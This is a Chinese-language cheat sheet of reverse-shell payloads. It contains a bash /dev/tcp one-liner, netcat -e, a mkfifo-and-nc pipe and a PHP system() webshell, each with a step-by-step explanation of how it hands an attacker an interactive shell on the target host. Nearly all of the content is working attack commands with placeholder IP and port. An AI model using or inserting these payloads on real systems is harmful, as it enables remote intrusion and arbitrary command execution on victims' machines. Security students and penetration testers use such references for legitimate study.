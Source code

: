 ## bash反弹shell

```
bash -i >& /dev/tcp/<ip>/<port> 0>&1
```

### 解析：

- bash -i：
  - bash是Bash shell的命令
  - -i：表示以交互模式启动Bash，允许用户输入命令并获取输出。
  - 作用：启动一个交互式的shell
- \>& /dev/tcp/<ip>/<port>：
  - /dev/tcp/<ip>/<port>：是Bash的一个特殊文件（虚拟设备），用于直接通过TCP连接到指定的IP和端口
  - \>&：表示将标准输出和标准错误重定向到指定的目标
  - 作用：将Bash的输出（包括命令结果和错误信息）发送到远程主机的<ip>:<port>
- 0>&1：
  - 0：表示标准输入
  - \>&1：将标准输入重定向到标准输出
  - 作用：因为标准输出已经被重定向到/dev/tcp/<ip>/<port>，这一步将标准输入也绑定到同一个TCP连接上，确保远程主机发送的命令可以通过该连接输入到Bash。







## nc反弹shell

```
nc -e /bin/bash <ip> <port>
```

### 解析：

- -e /bin/bash：-e是nc的一个选项，表示将指定程序绑定到网络连接上（这里是/bin/bash)
- /bin/bash是一个shell解释器，执行该选项后，nc会将网络连接的输入和输出与/bin/bash的标准输入出书绑定
- 作用：允许远程通过网络执行shell命令

### 注意事项：

- 不是所有的nc版本都支持-e选项

- 如果-e不被支持，可以利用管道方式解决

  - ```
    rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <ip> <port> > /tmp/f
    ```

    







## php代码中利用system()函数弹shell

```
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f");?>
```

### 解析：

- rm /tmp/f
  - 删除文件/tmp/f（如果存在）
  - 目的：确保后续操作不好因为文件已存在而失败，清理环境
- mkdifo /tmp/f
  - 创建一个命名管道（FIFO，First-In-First-Out）文件/tmp/f
  - 命名管道：这是一个特殊的文件类型，允许数据在进程之间传递。数据写入管道的一端可以被另一端读取
  - 目的：为后续的数据流传输准备一个管道
- cat /tmp/f | /bin/sh -i 2>&1
  - cat /tmp/f：读取命名管道/tmp/f中的内容
  - | ：将cat的内容通过管道传递给后面的命令
  - /bin/sh -i：启动一个交互式的shell（-i表示交互模式）
  - 2>&1：将标准错误重定向到标准输出，确保错误信息也能被传递
  - 作用：从管道中读取数据并将其传递给交互式shell，同时将shell的输出（包括错误）合并
- | nc <ip> <port> > /tmp/f
  - |：将前面的shell输出传递给nc命令
  - nc <ip> <port>：使用nc连接到ip及端口
  - \> /tmp/f：将nc的输出（即从远程接收到的数据）写入到命名管道/tmp/f。
  - 作用：将shell的输出通过网络发送到远程主机，同时将远程主机的命令写回管道，形成双向通信

### 整体工作原理：

- 创建管道：通过mkfifo创建/tmp/f作为数据中转站。
- 反弹shell：
  - cat /tmp/f：读取管道中的数据（攻击者的命令）
  - /bin/sh -i：执行这些命令并生成输出
  - nc <ip> <port> 将shell的输出发送到攻击者的ip和端口
  - 攻击者发送的额命令通过nc写回/tmp/f，形成循环。
- 结果：攻击者开启监听，就可以与目标主机上的shell交互，执行任意命令
